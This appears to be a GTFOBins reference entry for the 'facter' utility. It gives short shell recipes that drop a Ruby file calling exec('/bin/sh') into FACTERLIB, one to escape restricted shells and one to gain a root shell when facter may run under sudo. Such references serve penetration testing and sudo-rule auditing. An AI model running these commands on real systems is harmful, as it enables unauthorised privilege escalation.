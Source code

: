 # GTFOBin: facter

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp -d)
echo 'exec("/bin/sh")' > $TF/x.rb
FACTERLIB=$TF facter
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -d)
echo 'exec("/bin/sh")' > $TF/x.rb
sudo FACTERLIB=$TF facter
```